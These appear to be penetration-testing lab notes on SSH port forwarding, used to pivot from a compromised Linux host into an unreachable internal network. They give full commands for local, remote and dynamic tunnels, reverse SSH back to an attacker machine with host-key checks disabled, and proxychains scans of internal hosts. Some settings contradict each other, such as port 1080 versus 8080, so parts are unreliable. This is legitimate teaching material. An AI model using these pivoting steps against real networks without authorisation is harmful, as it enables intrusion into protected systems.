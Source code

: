 ## SSH Port Forwarding

- Local port forwarding - Forward a local port on the client machine to some destination located either on or through the server end.
- Remote port forwarding - A remote port on the server is forwarded to a destination either on or through the client end.
- Dynamic port forwarding - connections from various programs are forwarded, via  the SSH client to an SSH server, and finally to several destination  servers.

### SSH Local Port Forwarding by Example

Imagine a scenario where a Linux Client has been compromised.  It is connected to multiple network segments, one of which is not accessible from the outside.  However, this client has some ports which are open through the border firewall and it has been compromised through one of these.

Imagine you want to connect to the Windows Server inside this Internet inaccessible network on port 445.  This can be done by creating an SSH connection from Kali to the Linux client and tunneling port 445 through that connection.  The firewall will only see port 22/SSH traffic.

![image-20200725172908676](.ssh-port-forward.assets/image-20200725172908676.png)

1. Use SSH's bind feature to create a connection from Kali to the intermediate Linux Client and setup the port forward:

   ```bash
   sudo ssh -N -L 0.0.0.0:445:172.16.216.5:445 student@192.168.216.44
   
   # Options
   -N 	# Do not execute remote command
   -L	# Local Bind option
   0.0.0.0:445:172.16.216.5:445 # Specifies that connections on Kali to the local port 445 are forwarded to Windows Server 2016 on port 445.  
   # LocalIP:LocalPort:RemoteIP:RemotePort
   # Specifying 127.0.0.1 as the source address will limit this forwarding to only apps on the local machine.
   student@192.168.216.44	# Login info for the SSH connection
   ```

   The output will remain paused after entering the SSH password.

2. Set the minimum SMB version to SMBv2 because WinServer 2016 no longer supports SMBv1 by default:

   ```bash
   sudo vi /etc/samba/smb.conf
   
   # Add to end of file
   min protocol = SMB2
   
   # Restart SMB
   sudo systemctl restart smbd
   ```

3. Verify it is forwarding by attempting to list the Samba shares on the remote host.  Point to an IP on the local host, which will be redirected to the Windows 2016 host via the SSH connection to the Linux Client.

   ```bash
   smbclient -L 127.0.0.1 -U Administrator
   ```

This diagram shows the final result:
![image-20200725200045663](.ssh-port-forward.assets/image-20200725200045663.png)

### SSH Remote Port Forwarding by Example

This is the reverse scenario of local port forwarding, as connections to a specified port on the remote host will be forwarded to a port on the local machine.

Imagine a scenario where the attacker has access to a non-root reverse shell on the Linux Client in the internal network.  There is a MySQL running on port 3306 but the firewall is blocking inbound connections to port 22 and 3306 for this host.

![image-20200725183014609](.ssh-port-forward.assets/image-20200725183014609.png)

1. On the remote Linux client, create an SSH connection to the external Kali machine, specifying the ports on the Linux Client to be forwarded to the Kali machine:

   ```bash
   ssh -N -R 192.168.119.216:2221:127.0.0.1:3306 rcoyote@192.168.119.216
   
   # Options
   -N 	# Do not execute remote command
   -R	# Remote Bind option
   192.168.119.216:2221:127.0.0.1:3306 # Specifies that a listener will be opened on the remote end (192.168.119.216:2221) that will forward connections to the local port (127.0.0.1:3306) 
   coyote@192.168.119.216	# Login info for the SSH connection
   ```

   Remember to make SSH is started on Kali and that it is allowed through the local firewall.

2. Verify on the remote end (Kali) that the port (2221) has been opened:

   ```bash
   ss -antp | grep 2221
   ```

3. Access the SQL Server using port 2221 on the local host, which will be forwarded via the SSH rule to port 3306 on the remote Linux Client over port 22/ssh.

   ```bash
   sudo nmap -sS -sV 127.0.0.1 -p 2221
   ```

This diagram shows the final product:

![image-20200725200000257](.ssh-port-forward.assets/image-20200725200000257.png)

#### Forwarding Restrictions

By default, OpenSSH only allows connecting to remote forwarded ports from the server host, meaning nobody can use the server as a gateway to access the port forward on the tunnel.  However, the `GatewayPorts` option in the server configuration file `sshd_config` can be used to control this.  The following alternatives are possible:

```bash
# 'No' prevents connecting to forwarded ports from outside the server computer.  This is the default.
GatewayPorts no
# 'Yes' allows anyone to connect to the forwarded ports.  If the server is on  the public Internet, anyone on the Internet can connect to the port.
GatewayPorts yes
# 'clientspecified' means that the client can specify an IP address from which connections to the port are allowed.
GatewayPorts clientspecified   
```

When using the `client specified` option, the client end will supply the IP that is allowed to access the tunnel in the SSH connection options:

```bash
# In this example, only connections from the IP address 52.194.1.73 to port 8080 are allowed.
ssh -R 52.194.1.73:8080:localhost:80 host147.aws.example.com
```

### SSH Dynamic Port Forwarding Example

Assume the Linux Client has been compromised and we have elevated privileges on the client.  There do not seem to be any restrictions inbound or outbound on the firewall.  The Linux Client is connection to a second network that is inaccessible to the Internet.   In the Local Port forwarding example, we only needed to access the SMB shares on the Windows 2016 server, but now we want to be able to access any port on any IP in that network without creating separate tunnels.

![image-20200725200142556](.ssh-port-forward.assets/image-20200725200142556.png)

1. On the Kali machine, setup an SSH connection with the intermediary Linux Client, specifying Dynamic port forwarding:

   ```bash
   sudo ssh -N -D 127.0.0.1:8080 student@192.168.216.44
   
   # Options
   -N 	# Do not execute remote command
   -D	# Dynamic Bind option, creates local SOCKS4 application proxy
   127.0.0.1:8080	# Specifies the local port to use as the proxy
   student@192.168.216.44	# Login info for the SSH connection to the Linux Client
   ```

2. On Kali, use proxy chains to run standard network applications through the create proxy connection.  Edit `/etc/proxychains.conf` and add the SOCKS4 proxy to the `[ProxyList]` section.

   ```bash
   [ProxyList]
   # add proxy here ...
   # meanwile
   # defaults set to "tor"
   socks4 127.0.0.1 8080
   ```

3. To run any tool through the proxy, simply prepend every command with `proxychains`:

   ```bash
   proxychains nmap --top-ports=20 -sT -Pn 172.16.216.5
   ```
   
   With SOCKS proxies, nmap scans must be connection-oriented and pings won't work, so use -sT -Pn for TCP scans with no pings.

### Other Options

#### Reverse Connection from Non-Interactive Prompt on Target

If you need to run this using a non-interactive prompt, you will need to get around the password prompt and the RSA acceptance message.  To do this, create a key on the remote end to use as the authentication mechanism:

```bash
mkdir /tmp/keys
ssh-keygen 
	/tmp/keys/id_rsa_coyote
cat /tmp/keys/id_rsa_coyote.pub
```

Add this public key to the trusted keys on Kali in `~/.ssh/authorized_keys` with restrictions only allow the IP (if NAT is in use, use the NAT'ed IP) of the target as well as only allow forwarding.

```bash
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDkuK7GzKRtsaPYDPMAyCyVSZkKc0pVG8yBAiQN9pnHYUbiqdHdp4j2wDbvnpThTZQ3R5A4xstAU12m9W8EYmp4wg+22re77vQxrX2+z3dpi0HiMBaUF/5vYVPgL2uWxkJ8kpT5VuhnN7KvQLISeb1nVoH3eiqO5SX+oPqyeSvz9CetaFP510T3D8tYYJK+MZJLEazQ63OGbzxitLVwYxPnzpw9AfDfg/GozttEfjZ93yHESjqkK0iAk9DcSnjC9wF63U/sBH4v0n/0aqdghBxpvRuh/vWABKluAC78accKecMJW8jlMTDpoGHGZzmHw9TqoXuO42+d7zpLczNzM0uZ www-data@ajla

#Options
from="10.11.1.250"	# Allowed IP of the target
command="echo 'This account can only be used for port forwarding'"	# Disables commands with the command option
no-agent-forwarding	# Disable agent forwarding
no-X11-forwarding	# Disable x11 forwarding
no-pty 				# Block pty allocation
ssh-rsa .....		# Public key from target
```

Initiate the SSH connection

```bash
ssh -f -N -R 192.168.119.216:1122:10.5.5.11:22 -R 192.168.119.216:13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa_coyote coyote@192.168.119.216

# Options
-f	# Backgrounds the SSH process
-o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" # disables the host key check
-i /tmp/keys/id_rsa_coyote  # Uses RSA authentication
```

#### Reverse Dynamic Connection

1. A dynamic connection from the target can be setup using the same steps as above but a different SSH connection:

2. ```bash
   ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/coyote_rsa coyote@192.168.119.216
   
   -R 1080	# because no host is specified after the port, it instructs Kali to create a SOCKS proxy on port 1080 that uses the SSH tunnel
   
   ```

3. On Kali, use proxy chains to run standard network applications through the create proxy connection.  Edit `/etc/proxychains.conf` and add the SOCKS4 proxy to the `[ProxyList]` section.

   ```bash
   [ProxyList]
   # add proxy here ...
   # meanwile
   # defaults set to "tor"
   socks4 127.0.0.1 8080
   ```

4. To run any tool through the proxy, simply prepend every command with `proxychains`:

   ```bash
   proxychains nmap --top-ports=20 -sT -Pn 172.16.216.5
   ```

   Remember with SOCKS proxies, nmap scans must be connection-oriented and pings won't work, so use -sT -Pn for TCP scans with no pings.

### Others to try:

This looks promising if you are having issues with the normal tools.  It only seems to work on Linux:  https://github.com/sshuttle/sshuttle